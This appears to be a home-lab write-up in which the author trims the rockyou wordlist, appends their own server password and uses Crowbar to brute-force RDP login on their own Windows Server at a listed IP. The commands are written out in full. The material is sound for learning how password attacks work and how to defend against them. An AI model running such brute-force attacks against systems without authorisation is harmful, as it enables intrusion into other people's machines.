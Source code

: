 Next, I opened my **Kali Linux** VM and navigated to the directory `/usr/share/wordlists`. I unzipped the `rockyou` password list with the following command:

```bash
sudo gunzip rockyou.txt.gz
```

After unzipping, I viewed the contents of the `rockyou.txt` file by running:

```bash
cat rockyou.txt
```

Since the password list was quite large, I decided to extract the first 50 entries and save them to a new file called `user-wordlist.txt`:

```bash
head -50 rockyou.txt > /home/user/user-wordlist.txt
```

I then navigated to the home directory and confirmed the contents of `user-wordlist.txt`:

```bash
cat /home/user/user-wordlist.txt
```
![Wordlist Preview](https://github.com/user-attachments/assets/49ca6e98-cf05-4289-b701-f563f9fd9042)

At the bottom of the file, I added my **Windows Server** password, `Winter2024!`.

Next, I installed **Crowbar** using the command:

```bash
sudo apt-get install -y crowbar
```

I encountered an error during the installation, so I updated my package repositories:

```bash
sudo apt-get update && sudo apt-get upgrade -y
```

After the update, I ran the command to install **Crowbar** again, and this time it was successful.

I created a new file named `target.txt` using **nano**, where I included my **Windows Server** IP address and the username. To perform the brute-force attack, I executed the following command:

```bash
crowbar -b rdp -u Administrator -C /home/user/user-wordlist.txt -s 45.63.57.62/32
```

In this command:
- `crowbar` specifies the use of the **Crowbar** service.
- `-b rdp` indicates the protocol being targeted (Remote Desktop Protocol).
- `-u Administrator` specifies the user account.
- `-C /home/user/user-wordlist.txt` points to the wordlist containing the passwords I want to try for authentication.
- `-s 45.63.57.62/32` indicates the target IP address using `/32` notation to target only that specific address.

Within just 7 seconds, I successfully gained access to the target machine!
![Access Gained](https://github.com/user-attachments/assets/d54d7edc-604c-4aab-847a-a5e4c84af676)
